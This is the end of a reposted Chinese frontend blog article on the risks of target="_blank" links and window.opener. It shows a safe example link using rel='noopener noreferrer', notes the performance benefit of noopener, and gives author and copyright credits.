data-toggle="tooltip" data-placement="top" title="" data-original-title="&#x653E;&#x8FDB;&#x7B14;&#x8BB0;"></span></div></div><pre class="xml hljs"><code class="html" style="word-break:break-word;white-space:initial"><span class="hljs-tag">&lt;<span class="hljs-name">a</span> <span class="hljs-attr">href</span>=<span class="hljs-string">&quot;https://an.evil.site&quot;</span> <span class="hljs-attr">target</span>=<span class="hljs-string">&quot;_blank&quot;</span> <span class="hljs-attr">rel</span>=<span class="hljs-string">&quot;noopener noreferrer nofollow&quot;</span>&gt;</span>&#x8FDB;&#x5165;&#x4E00;&#x4E2A;&#x201C;&#x90AA;&#x6076;&#x201D;&#x7684;&#x7F51;&#x7AD9;<span class="hljs-tag">&lt;/<span class="hljs-name">a</span>&gt;</span></code></pre><h1 id="articleHeader10">&#x6027;&#x80FD;</h1><p>&#x6700;&#x540E;&#xFF0C;&#x518D;&#x6765;&#x8BF4;&#x8BF4;&#x6027;&#x80FD;&#x95EE;&#x9898;&#x3002;</p><p>&#x5982;&#x679C;&#x7F51;&#x7AD9;&#x4F7F;&#x7528;&#x4E86; <code>&lt;a target=&quot;_blank&quot;&gt;</code>&#xFF0C;&#x90A3;&#x4E48;&#x65B0;&#x6253;&#x5F00;&#x7684;&#x6807;&#x7B7E;&#x9875;&#x7684;&#x6027;&#x80FD;&#x5C06;&#x4F1A;&#x5F71;&#x54CD;&#x5230;&#x5F53;&#x524D;&#x9875;&#x9762;&#x3002;&#x6B64;&#x65F6;&#x5982;&#x679C;&#x65B0;&#x6253;&#x5F00;&#x7684;&#x9875;&#x9762;&#x4E2D;&#x6267;&#x884C;&#x4E86;&#x4E00;&#x4E2A;&#x975E;&#x5E38;&#x5E9E;&#x5927;&#x7684; JavaScript &#x811A;&#x672C;&#xFF0C;&#x90A3;&#x4E48;&#x539F;&#x59CB;&#x6807;&#x7B7E;&#x9875;&#x4E5F;&#x4F1A;&#x53D7;&#x5230;&#x5F71;&#x54CD;&#xFF0C;&#x4F1A;&#x51FA;&#x73B0;&#x5361;&#x987F;&#x7684;&#x73B0;&#x8C61;&#xFF08;&#x5F53;&#x7136;&#x4E0D;&#x81F3;&#x4E8E;&#x5361;&#x6B7B;&#xFF09;&#x3002;</p><p>&#x800C;&#x5982;&#x679C;&#x5728;&#x94FE;&#x63A5;&#x4E2D;&#x52A0;&#x5165;&#x4E86; <code>noopener</code>&#xFF0C;&#x5219;&#x6B64;&#x65F6;&#x4E24;&#x4E2A;&#x6807;&#x7B7E;&#x9875;&#x5C06;&#x4F1A;&#x4E92;&#x4E0D;&#x5E72;&#x6270;&#xFF0C;&#x4F7F;&#x5F97;&#x539F;&#x9875;&#x9762;&#x7684;&#x6027;&#x80FD;&#x4E0D;&#x4F1A;&#x53D7;&#x5230;&#x65B0;&#x9875;&#x9762;&#x7684;&#x5F71;&#x54CD;&#x3002;</p><hr><blockquote>&#x6587; / jinliming2<br>&#x4E00;&#x6761;&#x5BF9;&#x65B0;&#x9C9C;&#x4E8B;&#x7269;&#x5145;&#x6EE1;&#x4E86;&#x597D;&#x5947;&#x5FC3;&#x7684;&#x54B8;&#x9C7C;<p>&#x7F16; / &#x8367;&#x58F0;</p></blockquote><p>&#x672C;&#x6587;&#x5DF2;&#x7531;&#x4F5C;&#x8005;&#x6388;&#x6743;&#x53D1;&#x5E03;&#xFF0C;&#x7248;&#x6743;&#x5C5E;&#x4E8E;&#x521B;&#x5B87;&#x524D;&#x7AEF;&#x3002;&#x6B22;&#x8FCE;&#x6CE8;&#x660E;&#x51FA;&#x5904;&#x8F6C;&#x8F7D;&#x672C;&#x6587;&#x3002;&#x672C;&#x6587;&#x94FE;&#x63A5;&#xFF1A;<a href="https://knownsec-fed.com/2018-03-01-wei-xian-de-targetblank-yu-opener/" rel="nofollow noreferrer" target="_blank">https://knownsec-fed.com/2018...</a></p><p>&#x60F3;&#x8981;&#x8BA2;&#x9605;&#x66F4;&#x591A;&#x6765;&#x81EA;&#x77E5;&#x9053;&#x521B;&#x5B87;&#x5F00;&#x53D1;&#x4E00;&#x7EBF;&#x7684;&#x5206;&#x4EAB;&#xFF0C;&#x8BF7;&#x641C;&#x7D22;&#x5173;&#x6CE8;&#x6211;&#x4EEC;&#x7684;&#x5FAE;&#x4FE1;&#x516C;&#x4F17;&#x53F7;&#xFF1A;&#x521B;&#x5B87;&#x524D;&#x7AEF;&#xFF08;KnownsecFED&#xFF09;&#x3002;&#x6B22;&#x8FCE;&#x7559;&#x8A00;&#x8BA8;&#x8BBA;&#xFF0C;&#x6211;&#x4EEC;&#x4F1A;&#x5C3D;&#x53EF;&#x80FD;&#x56DE;&#x590D;&#x3002;</p><p><span class="img-wrap"><img data-src="/img/bVbgVle?w=296&amp;h=295" src="https://static.alili.tech/img/bVbgVle?w=296&amp;h=295" alt="" title="" style="cursor:pointer"></span></p><p>&#x6B22;&#x8FCE;&#x70B9;&#x8D5E;&#x3001;&#x6536;&#x85CF;&#x3001;&#x7559;&#x8A00;&#x8BC4;&#x8BBA;&#x3001;&#x8F6C;&#x53D1;&#x5206;&#x4EAB;&#x548C;&#x6253;&#x8D4F;&#x652F;&#x6301;&#x6211;&#x4EEC;&#x3002;&#x6253;&#x8D4F;&#x5C06;&#x88AB;&#x5B8C;&#x5168;&#x8F6C;&#x4EA4;&#x7ED9;&#x6587;&#x7AE0;&#x4F5C;&#x8005;&#x3002;</p><p>&#x611F;&#x8C22;&#x60A8;&#x7684;&#x9605;&#x8BFB;&#x3002;</p>
{{< /raw >}}

# 版权声明
本文资源来源互联网，仅供学习研究使用，版权归该资源的合法拥有者所有，

本文仅用于学习、研究和交流目的。转载请注明出处、完整链接以及原作者。 

原作者若认为本站侵犯了您的版权，请联系我们，我们会立即删除！

## 原文标题
你不曾察觉的隐患：危险的 target="_blank" 与 “opener”

## 原文链接
[https://segmentfault.com/a/1190000016421263](https://segmentfault.com/a/1190000016421263)

